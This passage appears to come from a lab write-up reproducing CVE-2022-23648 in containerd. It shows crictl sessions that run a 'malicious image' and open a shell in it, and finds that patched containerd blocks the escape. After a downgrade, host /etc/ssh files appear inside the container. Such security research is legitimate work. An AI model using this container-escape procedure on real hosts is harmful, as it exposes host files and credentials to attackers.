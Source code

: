 
* Run the malicious image


                root@ubuntu:/home/test/CVE-2022-23648# crictl run --no-pull container-config.json pod-config.json 
                ba2d0c46c5502c2b9bd7027333c3779095d5e297ef165bfe50b863a0fb82d8c2
                root@ubuntu:/home/test/CVE-2022-23648# crictl pods
                POD ID              CREATED             STATE               NAME                NAMESPACE           ATTEMPT             RUNTIME
                3bf95742d0fb3       10 seconds ago      Ready               test                default             1                   (default)
                root@ubuntu:/home/test/CVE-2022-23648# crictl ps
                CONTAINER           IMAGE                                     CREATED             STATE               NAME                ATTEMPT             POD ID
                ba2d0c46c5502       docker.io/library/cve-2022-23648:latest   14 seconds ago      Running             test                0                   3bf95742d0fb3
                root@ubuntu:/home/test/CVE-2022-23648# crictl exec -it ba2d0c46c5502 bash
                root@ubuntu:/# ls /etc/ssh/
                root@ubuntu:/# ls /etc/ssh

Emmm, no host data. Wha't wrong. From this [page](https://ubuntu.com/security/CVE-2022-23648), we can see my containerd is fixed.


                root@ubuntu:/home/test# containerd --version
                containerd github.com/containerd/containerd 1.5.5-0ubuntu3~20.04.2 
                root@ubuntu:/home/test# which containerd
                /usr/bin/containerd
                root@ubuntu:/home/test# stat /usr/bin/containerd
                File: /usr/bin/containerd
                Size: 60305392  	Blocks: 117784     IO Block: 4096   regular file
                Device: 805h/2053d	Inode: 5769129     Links: 1
                Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
                Access: 2022-03-25 23:43:13.235999616 -0700
                Modify: 2022-02-25 12:15:25.000000000 -0800
                Change: 2022-03-14 06:37:43.871583849 -0700
                Birth: -

* Install a lower version.

                root@ubuntu:/home/test/CVE-2022-23648# crictl stopp 3bf95742d0fb3
                Stopped sandbox 3bf95742d0fb3
                root@ubuntu:/home/test/CVE-2022-23648# crictl rmp 3bf95742d0fb3
                Removed sandbox 3bf95742d0fb3
                root@ubuntu:/home/test/CVE-2022-23648# crictl pods
                POD ID              CREATED             STATE               NAME                NAMESPACE           ATTEMPT             RUNTIME
                root@ubuntu:/home/test/CVE-2022-23648# crictl ps
                CONTAINER           IMAGE               CREATED             STATE               NAME                ATTEMPT             POD ID


                root@ubuntu:/home/test/CVE-2022-23648# crictl run --no-pull container-config.json pod-config.json 
                fe4ef77ab8e31434ab73e952c69710634a2cc2ec4a2f072cac45436941e7cc6b
                root@ubuntu:/home/test/CVE-2022-23648# crictl pods
                POD ID              CREATED             STATE               NAME                NAMESPACE           ATTEMPT             RUNTIME
                1ecc6bee60024       4 seconds ago       Ready               test                default             1                   (default)
                root@ubuntu:/home/test/CVE-2022-23648# crictl ps
                CONTAINER           IMAGE                                     CREATED             STATE               NAME                ATTEMPT             POD ID
                fe4ef77ab8e31       docker.io/library/cve-2022-23648:latest   7 seconds ago       Running             test                0                   1ecc6bee60024
                root@ubuntu:/home/test/CVE-2022-23648# crictl exec -it fe4ef77ab8e31 bash
                root@ubuntu:/# ls /etc/ssh
                host_file  ssh_config  ssh_config.d
                root@ubuntu:/# cat /etc/ssh/host_file 